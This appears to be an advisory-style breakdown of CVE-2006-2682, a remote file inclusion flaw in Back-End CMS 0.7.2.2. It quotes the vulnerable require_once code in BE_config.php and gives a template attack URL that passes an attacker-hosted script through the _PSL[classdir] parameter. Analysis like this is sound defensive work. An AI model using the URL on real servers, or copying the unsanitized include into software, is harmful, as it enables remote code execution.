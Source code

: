 Based on the provided content, here's a breakdown of the vulnerability associated with CVE-2006-2682:

**Root Cause:**

*   The vulnerability is a **Remote File Inclusion (RFI)** issue.
*   The `BE_config.php` file in Back-End CMS version 0.7.2.2 is vulnerable.
*   The vulnerability exists because the `classdir` parameter within the `$_PSL` array is not properly sanitized, allowing an attacker to inject a malicious URL.

**Weaknesses/Vulnerabilities Present:**

*   **Unsanitized Input:** The application directly uses user-supplied input (`$_PSL['classdir']`) in a `require_once` statement without validation.
*   **Remote File Inclusion:** The lack of input validation allows an attacker to include and execute arbitrary code from a remote server.

**Impact of Exploitation:**

*   **Arbitrary Code Execution:** Successful exploitation allows the attacker to execute arbitrary code on the server.
*   **Complete System Compromise:** The attacker could potentially gain full control of the vulnerable server.
*   **Data Theft/Manipulation:** Attackers can steal sensitive data or manipulate the application and database.

**Attack Vectors:**

*   **HTTP GET Request:** The attack vector is a crafted HTTP GET request to the vulnerable `BE_config.php` file.
*   **Manipulated `_PSL[classdir]` parameter:** The attacker inserts a URL pointing to their malicious script into the `_PSL[classdir]` parameter.

**Required Attacker Capabilities/Position:**

*   **Remote Network Access:** The attacker needs to be able to send HTTP requests to the vulnerable server.
*   **Ability to Host Malicious Script:** The attacker needs to host a malicious PHP script on a server they control, accessible to the vulnerable server.

**Technical Details:**
The exploit targets line 27-31 of the `BE_config.php` file:
```php
  // Script timer
  require_once($_PSL['classdir'] . '/BE_phpTimer.class');
  $scriptTimer = & pslSingleton('phpTimer');
  $scriptTimer->start('main');
```

By providing a URL through the `_PSL[classdir]` parameter, an attacker can cause the vulnerable server to include a malicious PHP file:

`http://www.site.com/[Back-End_path]/BE_config.php?_PSL[classdir]=[evil_scripts]`

The included script will then be executed by the server.

The provided exploit-db content gives more detail than the CVE description, which is a placeholder.